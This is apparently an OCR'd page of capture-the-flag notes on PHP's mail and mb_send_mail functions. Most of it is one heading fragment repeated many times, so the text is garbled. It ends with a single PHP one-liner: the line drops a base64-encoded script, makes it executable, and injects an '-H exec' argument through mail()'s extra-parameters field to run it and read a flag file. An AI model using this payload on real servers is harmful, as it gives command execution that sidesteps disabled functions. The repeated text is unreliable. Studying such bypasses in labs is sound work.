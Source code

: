 **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_send\_mail** - **mail / mb\_
```bash
file_put_contents('/www/readflag.sh', base64_decode('IyEvYmluL3NoCi9yZWFkZmxhZyA+IC90bXAvZmxhZy50eHQKCg==')); chmod('/www/readflag.sh', 0777);  mail('', '', '', '', '-H \"exec /www/readflag.sh\"'); echo file_get_contents('/tmp/flag.txt');
```